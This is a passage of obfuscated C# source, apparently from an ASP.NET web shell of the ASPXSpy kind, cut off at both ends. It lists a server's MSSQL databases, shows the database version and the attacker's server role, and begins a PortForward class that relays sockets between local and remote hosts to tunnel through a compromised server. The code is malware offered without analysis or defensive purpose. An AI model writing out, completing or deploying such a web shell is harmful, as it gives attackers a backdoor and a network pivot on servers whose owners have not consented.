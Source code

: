  }
}
Pvf.Items.Clear();
Pvf.Items.Add("-- Select a DataBase --");
Pvf.Items[0].Value="";
for(int i=0;i<dbs.Rows.Count;i++)
{
db_name+=dbs.Rows[i][0].ToString().Replace(cdb.Rows[0][0].ToString(),"<font color=blue>"+cdb.Rows[0][0].ToString()+"</font>")+"&nbsp;|&nbsp;";
Pvf.Items.Add(dbs.Rows[i][0].ToString());
}
irTU.InnerHtml="<p><font color=red>MSSQL Version</font> : <i><b>"+jHlh+"</b></i></p><p><font color=red>SrvRoleMember</font> : <i><b>"+dbo+"</b></i></p>";
}
else
{
uXevN.Visible=false;
irTU.Visible=false;
xTZY();
}
}
catch(Exception e)
{
dQIIF.Visible=false;
}
}
public void MHLv()
{
WICxe();
hOWTm.Visible=true;
Bin_H2_Title.InnerText="PortMap >>";
}
public class PortForward
{
public string Localaddress;
public int LocalPort;
public string RemoteAddress;
public int RemotePort;
string type;
Socket ltcpClient;
Socket rtcpClient;
Socket server;
byte[] DPrPL=new byte[2048];
byte[] wvZv=new byte[2048];
public struct session
{
public Socket rdel;
public Socket ldel;
public int llen;
public int rlen;
}
public static IPEndPoint mtJ(string host,int port)
{
IPEndPoint iep=null;
IPHostEntry aGN=Dns.Resolve(host);
IPAddress rmt=aGN.AddressList[0];
iep=new IPEndPoint(rmt,port);
return iep;
}
public void Start(string Rip,int Rport,string lip,int lport)
{
try
{
LocalPort=lport;